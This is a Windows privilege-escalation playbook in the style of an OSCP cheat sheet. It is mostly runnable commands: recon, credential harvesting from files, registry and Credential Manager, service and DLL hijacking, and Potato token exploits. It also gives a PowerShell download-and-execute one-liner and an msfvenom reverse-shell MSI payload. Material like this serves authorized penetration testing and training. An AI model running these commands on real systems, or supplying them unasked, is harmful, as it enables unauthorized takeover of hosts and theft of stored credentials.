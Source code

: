 # Windows Privilege Escalation Playbook

Quick-reference checklist for hunting Windows privilege escalation paths, covering manual checks, automated tooling, and common exploits. Replace placeholders (`<target>`, `<user>`, `<password>`) as needed.

---

## Quick Triage Checklist
- Identify current user context and host: `whoami`, `hostname`
- Inspect group memberships for elevated rights: `whoami /groups`
- Enumerate local users and privileged groups: `net user`, `net localgroup administrators`
- Capture OS build, architecture, and patch level: `systeminfo`, `wmic os get osarchitecture`, `wmic qfe`
- Review network footprint: `ipconfig /all`, `route print`
- List installed applications and running processes: `wmic product get name,version`, `tasklist /v`
- **Command bundle for a fast snapshot:**
  ```powershell
  whoami; hostname; whoami /groups;
  net user; net localgroup administrators;
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version";
  wmic os get osarchitecture; wmic qfe get HotFixID,InstalledOn;
  ipconfig /all; route print; tasklist /v
  ```

---

## 1. System Recon
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` – OS baseline for kernel/patch checks.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` – Enumerate installed updates.
- `whoami /all` – Current user, groups, and privileges (look for SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege, etc.).
- `hostname` / `echo %COMPUTERNAME%` – Confirm host identity.
- `set` – Dump environment variables for credentials or unusual paths.
- `driverquery /v` – List drivers to identify vulnerable third-party components.
- `wevtutil qe System /c:10 /rd:true /f:text` – Recent system events (service crashes, policy changes).
- **Situational awareness command sweep:**
  ```powershell
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
  wmic qfe get Caption,Description,HotFixID,InstalledOn
  whoami /all
  driverquery /v
  wevtutil qe System /c:10 /rd:true /f:text
  ```

## 2. Account & Credential Recon
- `net user <username>` / `net user` – Local user enumeration.
- `net localgroup administrators` – Check local admin membership.
- `cmdkey /list` – Stored credentials.
- `vaultcmd /listcreds /all` – Credential Manager entries.
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"` – Auto-logon creds.
- `findstr /spin "password" C:\Users\*` – Harvest clear-text secrets from user profiles.
- `findstr /spin /c:"pass" C:\*` – Broad search for files containing the literal string "pass".
- **Hidden-in-plain-view sweep (passwords, tokens, secrets):**
  ```powershell
  findstr /spin "password" C:\Users\*
  findstr /spin "token\|secret" C:\Users\*
  findstr /spin /c:"pass" C:\*
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
  cmdkey /list
  vaultcmd /listcreds /all
  ```

## 3. Service & Driver Abuse
- `sc query state= all` – Enumerate services and states.
- `sc qc <service>` – Inspect service configuration (binary path, run-as account).
- `wmic service get name,displayname,startmode,startname` – Identify auto-start services running as SYSTEM.
- Check for unquoted service paths; note writable directories in the path.
- `accesschk.exe -uwcqv "Authenticated Users" * /accepteula` – Detect writable service binaries.
- Driver vulnerabilities: cross-reference `driverquery` output with exploit DB (e.g., CVE-2018-0952).

## 4. Scheduled Tasks & Startup
- `schtasks /query /fo LIST /v` – Look for high-priv tasks with modifiable actions.
- `dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` – Startup folder abuse.
- Inspect `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` for writable autoruns.

## 5. Registry & Permission Weaknesses
- `reg query HKLM\SOFTWARE\Policies /s` – Misconfigured policies.
- `icacls "C:\Program Files"` – Find writable directories under Program Files.
- `Get-Acl` via PowerShell on critical paths (`C:\Windows\System32`, service binaries) to spot misperms.
- `reg query HKLM\SYSTEM\CurrentControlSet\Services /s | findstr /i "ImagePath"` – Review service ImagePaths for suspicious locations.
- **Interpreting key `icacls` flags:**  
  `F` (Full Control), `M` (Modify), `(W)` (Write), `(OI)` (Object Inherit), `(CI)` (Container Inherit). If low-privileged principals such as `BUILTIN\Users`, `Authenticated Users`, or `Everyone` hold `F`, `M`, or `(W)` on service binaries or directories, the path is likely exploitable.

## 6. Token & Privilege Abuse
- `whoami /priv` – Confirm user privileges.
- If SeImpersonatePrivilege present: deploy `PrintSpoofer`, `GodPotato`, or JuicyPotato.
- With SeAssignPrimaryTokenPrivilege: use `PsExec` or `incognito` to assign new tokens.
- With SeBackupPrivilege: use `diskshadow` + `ntdsutil` for AD database/download.

## 7. UAC & Logon Tricks
- `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` – Determine UAC level.
- Test non-elevated processes for auto-elevate (fodhelper, sdclt, eventvwr) if UAC is misconfigured.
- `query user` – Identify interactive admins for impersonation opportunities.

## 8. Using PowerUp.ps1
- Import PowerUp: `powershell -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"`
- Key functions:
  - `Invoke-AllChecks` – Comprehensive audit of services, reg keys, creds.
  - `Get-ServiceUnquoted` / `Get-ModifiableServiceFile` – Service path exploits.
  - `Get-ModifiableScheduledTaskFile` – Writable scheduled tasks.
  - `Get-RegistryAlwaysInstallElevated` – MSI elevated install misconfigs.
  - `Invoke-ServiceAbuse -Name <service>` – Automatically reconfigure vulnerable services.

## 9. Automated Scanners & Scripts
- `winPEAS.exe /quiet` – Broad privilege escalation discovery.
- `Seatbelt.exe -group=all` – Quick situational awareness.
- `SharpUp.exe` – C# alternative for Windows priv-esc checks.
- `Jaws-enum.ps1` – PowerShell info-gathering script.
- `wesng <systeminfo_output.txt>` – Windows Exploit Suggester Next-Gen.

## 10. Common Priv-Esc Exploits
- **Potato Family (SeImpersonate/AssignPrimary tokens)**
  - PrintSpoofer64: `PrintSpoofer64.exe -i -c cmd.exe`
  - GodPotato: `GodPotato.exe -cmd "cmd.exe"`
  - JuicyPotatoNG: `JuicyPotatoNG.exe -l 1337 -c "{CLSID}" -p "C:\Windows\System32\cmd.exe"`
- **Service Binary Replacement**
  - Stop vulnerable service → replace executable with payload → start service.
- **Unquoted Service Path**
  - Place payload in path (e.g., `C:\Program Files\Vuln Service\program.exe`) and restart service.
- **AlwaysInstallElevated**
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
  - `msfvenom -p windows/x64/shell_reverse_tcp -f msi` and run MSI to escalate.
- **DLL Hijacking**
  - Monitor loading DLLs via `Process Monitor` or `ListDLLs` → drop malicious DLL in writable directory.
- **Kernel Exploits**
  - Cross-reference build with exploit suggester (e.g., `PowerUp`, `wesng`) and deploy CVE-specific exploit like `CVE-2019-1388`.

## 11. Persistence & Verification
- After escalation, confirm with `whoami /groups` and `net session`.
- Locate OSCP flag files to document proof: `dir /s C:\*local.txt`, `dir /s C:\*proof.txt`
- Document exploited vector, commands, and files modified.
- Remove tooling and restore service order if required by engagement scope.

---

### Useful Download Links
- PowerUp.ps1: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
- winPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- PrintSpoofer: https://github.com/dievus/printspoofer
- GodPotato: https://github.com/BeichenDream/GodPotato
- JuicyPotatoNG: https://github.com/ohpe/juicy-potato
- Windows Exploit Suggester NG: https://github.com/bitsadmin/wesng
- Seatbelt: https://github.com/GhostPack/Seatbelt
